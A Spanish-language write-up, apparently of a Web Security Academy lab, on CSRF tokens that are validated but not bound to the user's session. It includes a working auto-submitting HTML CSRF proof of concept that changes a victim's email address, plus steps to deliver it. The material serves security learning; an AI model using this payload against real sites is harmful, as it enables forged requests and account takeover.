




Algunas aplicaciones no validan que el token pertenezca a la misma sesión que el usuario que realiza la solicitud. En su lugar, la aplicación mantiene un conjunto global de tokens emitidos por ella misma y acepta cualquier token que aparezca en este conjunto.

En esta situación, el atacante puede iniciar sesión en la aplicación usando su propia cuenta, obtener un token válido y luego proporcionar ese token al usuario víctima en su ataque CSRF.

## LAB

Interceptaremos la solicitud de actualización de correo del usuario **wiener** 





Al modificar y luego enviar el  token CSRF nos da un error, además debemos tener en mente que el token es de un solo uso. Otra cosa que probé fue iniciar sesión con la cuenta de **carlos** y cambiar los token CSRF en la solicitud de **wiener** y este funciono, por lo que si bien el token se validan, este no lo se asocia a la sesión del usuario

```html
<!DOCTYPE html>
	<body>
  <script>history.pushState('', '', '/')</script>
		<h1>Form CSRF PoC</h1>
		<form method="POST" action="https://0a31005504ffa87a80d4171d009e0056.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="test2@test.com">
			<input type="hidden" name="csrf" value="jJY7gxzNKeNiQe4nTrrbEt88fl6cV66c">
			<input type="submit" value="Submit Request">
		</form>
    <script>
      document.forms[0].submit();
    </script>
	</body>
</html>
```

Una vez construida nuestro POC CSRF, debemos de tener lo siguiente:
- La sesión abierta de carlos y wiener (en un navegador modo incognito)

Cambiar el token CSRF de wiener y copiar en el servidor malicioso



Guarde el exploit y haga clic en "Deliver to victim" para resolver el laboratorio.
